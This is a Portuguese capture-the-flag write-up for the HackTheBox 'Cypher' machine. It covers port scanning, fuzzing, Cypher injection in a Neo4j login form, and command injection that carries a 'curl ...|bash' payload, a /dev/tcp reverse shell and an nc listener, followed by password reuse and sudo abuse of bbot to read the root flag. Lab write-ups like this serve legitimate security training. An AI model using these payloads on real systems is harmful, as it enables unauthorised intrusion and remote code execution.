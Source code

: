 #Difficult : Medium
#OS : Linux
#Time  : 3h 23min
***
# Port Scanning
Como sempre começamos escaneando as portas abertas na máquina para termos uma noção de quais serviços estão rodando na máquina.
```bash
nmap 10.10.11.57 -sC -sV -A Pn -oN
```
![[Pasted image 20250414151325.png]]
Como não temos credenciais para o `ssh`, podemos focar na porta `80`. Após acessarmos o browser nessa porta, somos redirecionados para `cypher.htb`.

Devemos então eadiciona-lo em nosso arquivo de hosts.
![[Pasted image 20250414151716.png]]
```bash
echo "cypher.htb    10.10.11.57" >> /etc/hosts
```
***
# Fuzzing
Podemos então fazer uma enumeração dos recursos disponíveis na aplicação.
```bash
ffuf -u http://cypher.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/big.txt
```
![[Pasted image 20250414162656.png]]

No endpoint `/testing` podemos encontrar um arquivo em jar, podemos baixa-lo para dar uma olhada.
![[Pasted image 20250414162800.png]]

`.jar` costuma ser uma aplicação java compilada. Podemos então decompilar essa aplicação para darmos uma olhada.
```bash
jadx-gui -d decompile custom-apoc-extension-1.0-SNAPSHOT.jar
```
![[Pasted image 20250414163118.png]]

Temos o que seria então o código da aplicação que aparentemente faz conexão com o servidor `neo4j`, podemos notar que a função `getUrlStatusCode` recebe alguma ``url`` a qual é passada sem sanitização para uma varável `command` que será executada. Então caso tenhamos acesso a essa função poderíamos usa-la para executar código arbitrário.
![[Pasted image 20250414163543.png]]
***
# Cypher Injection
Após mapear a aplicação achei um formulário de login que quebra após ser submetido com `'`. O que pode indicar uma vulnerabilidade de `Injection`.
![[Pasted image 20250414153646.png]]

Interceptei com o `Burp Suite`, para fazer uma análise mais controlada, podemos envia-la para o `repeater(Ctrl+r)`. Após fazer o envio, recebemos o seguinte erro.
![[Pasted image 20250414154448.png]]

No erro podemos notar o uso do `neo4j` que é um banco de dados de relacionamento de grafos. E o uso de sua linguagem `OpenCipher`. Nesse ponto eu não sabia muito sobre o `neo4j` nem sobre o `OpenCipher` ,as esses 3 artigos me ajudaram a entender como prosseguir com a exploração.
- [Protecting against Cypher Injection](https://neo4j.com/developer/kb/protecting-against-cypher-injection/)
- [Cypher Injection Cheat Sheet](https://pentester.land/blog/cypher-injection-cheatsheet/#example-in-band-injection-with-union)
- [Fun with Cypher Injections](https://hackmd.io/@Chivato/rkAN7Q9NY)
- [The most underrated injection of all time — CYPHER INJECTION. Identification & Exploitation!](https://infosecwriteups.com/the-most-underrated-injection-of-all-time-cypher-injection-fa2018ba0de8)

Comecei então iniciando um servidor `http` com `python` e mandei uma payload com `LOAD CSV` para validação.
```bash
python3 -m http.server 80
```

Devemos colocar `OR 1=1` pois a condição tem que retornar verdadeiro para conseguirmos executar as condições subsequentes.
```json
{
	"username" : "admin' OR 1=1 LOAD CSV FROM 'http://10.10.14.174/'+h.value as value Return '' //",
	"password" : "12345"
}
```
![[Pasted image 20250414165918.png]]
Embora tenhamos a `hash` do usuário `admin`, não consegui quebra-la.

A função `custom.getUrlStatusCode()` que pegamos no código java que achamos na enumeração de subdomínio faz parte do pacote `apoc`. Então podemos utiliza-lo em nossas consultas.

Após muitos testes, achei a payload certa. Devemos fazer o `RETURN` antes de usarmos o `UNION` pois ele precisa finalizar a `query` para fazermos outra
```json
{
	"username" : "admin' RETURN h.value AS value  UNION CALL custom.getUrlStatusCode(\"127.0.0.1;curl 10.10.14.174/shell.sh|bash;\") YIELD statusCode AS value RETURN value ; //",
	"password" : "12345"
}
```

Então criamos a payload  `shell.sh` que será servido no servidor `http`.
```bash
echo "/bin/bash -i >& /dev/tcp/10.10.14.174/4545 0>&1" > shell.sh
python -m http.server 80
```

Então podemos iniciar o nosso `listener`. Podemos mandar nossa solicitação, e então recebemos a conexão.
```bash
nc -lvnp 4545
```
![[Pasted image 20250414173033.png]]
***
# Movimentação Lateral
Na pasta `/home` há um arquivo de configurações que temos acesso.
```bash
cat /home/graphasm/bbot_preset.yml
```
![[Pasted image 20250414173606.png]]

Podemos reutilizar essa senha para o usuário `graphasm`, e acessar via `ssh`.
```bash
ssh grphasm@cypher.htb
ls -l
```
![[Pasted image 20250414173815.png]]
***
# PRIV ESC
Podemos agora ver quais comandos podemos executar com `sudo`.
```bash
sudo -l
```
![[Pasted image 20250414173908.png]]

Primeiro fiz uma leitura do menu de ajuda do binário.
```bash
sudo /usr/local/bin/bbot -h
```
 

Podemos colocar como entrada um arquivo que irá servir de `regras yara`. E então abrir o modo de depuração para vermos esse arquivo.
![[Pasted image 20250414174206.png]]

```bash
sudo /usr/local/bin/bbot -cy /root/root.txt --debug
```
![[Pasted image 20250414174719.png]]

**Owned!**
***

![[Pasted image 20250414174923.png]]

